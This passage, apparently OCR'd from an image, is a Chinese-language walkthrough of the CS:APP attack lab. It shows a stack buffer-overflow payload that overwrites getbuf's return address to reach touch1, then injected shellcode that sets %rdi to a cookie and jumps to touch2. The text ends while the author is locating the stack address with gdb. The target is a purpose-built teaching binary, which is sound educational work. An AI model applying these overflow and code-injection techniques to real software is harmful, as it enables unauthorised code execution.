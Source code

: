 ```
00000000004018b2 <getbuf>:
  4018b2:	48 83 ec 38          	sub    $0x38,%rsp
  4018b6:	48 89 e7             	mov    %rsp,%rdi
  4018b9:	e8 31 03 00 00       	callq  401bef <Gets>
  4018be:	b8 01 00 00 00       	mov    $0x1,%eax
  4018c3:	48 83 c4 38          	add    $0x38,%rsp
  4018c7:	c3                   	retq   
```

touch1的地址是0x40193a，用小端法表示后的输入应当是
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
3a 19 40 00 00 00 00 00
```

最后不要忘记加回车保留一个空行，然后用hex2raw转换为字符串，并且执行。
```
./hex2raw < 1.txt >1.bin
./ctarget -qi 1.bin
```

热身环节就做完了。

## phase2

这个阶段要求执行touch2函数，并且要传入cookie作为参数，也就是把cookie放在%rdi里。 我的cookie是0x77c3944f。

这里考虑先编写一段代码将cookie放到%rdi并执行touch2函数，然后在getbuf的ret处将程序执行跳转到自己写的代码处。 编写一小段汇编

```
movq $0x77c3944f,%rdi
pushq $0x401968
ret
```
然后用gcc和objdump转换为二进制代码

```
$ gcc -c 2.s
$ objdump -d 2.o
2.o：     文件格式 elf64-x86-64
Disassembly of section .text:
0000000000000000 <.text>:
   0:	48 c7 c7 4f 94 c3 77 	mov    $0x77c3944f,%rdi
   7:	68 68 19 40 00       	pushq  $0x401968
   c:	c3                   	retq   
```

要获得存放这段代码的位置，就要知道%rsp的值，幸运的是此处没有栈随机化，我们用gdb运行一次就可以知道这部分栈不变的位置
